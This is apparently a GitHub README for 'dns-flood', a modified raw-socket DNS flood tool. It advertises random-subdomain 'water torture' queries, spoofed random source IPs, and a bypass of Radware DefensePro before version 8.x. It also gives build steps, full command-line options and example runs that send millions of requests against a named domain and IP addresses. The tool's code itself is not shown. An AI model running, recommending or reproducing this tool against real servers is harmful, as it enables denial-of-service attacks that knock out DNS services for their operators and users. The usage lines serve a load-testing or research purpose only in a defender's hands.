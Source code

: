 # dns-flood
Original DNS-Flood tool found on code.google.com

This is modified version od DNS-Flood tool. 
Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

In contrast to original tool it provides:
  - subdomain part of query randomization aka DNS Water Torture
  - source port and TTL randomization
  - additional query types like AAAA and MX
  - DNSSEC query support

The tool is able to bypass Radware DefensePro SW version prior to 8.x.

## How to install

1. Clone Repo
2. Run Make
3. Enjoy Kittens
 
## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send   
	-d, --duration		run for at most this many seconds   
	-r, --random-src	fake random source IP
	-R, --random-sub	prefix with random subdomain names
	-S, --dnssec		make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help			print this message   
```
Example:
```bash
$ ./dnsflood abf.auction.co.kr 127.0.0.1 -d 30
sent 5333186 DNS requests in 30.000000 sec.
$
$ ./dnsflood abf.auction.co.kr 10.40.196.84 -n 5000000
sent 5000000 DNS requests in 28.000000 sec.
$
```

## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/
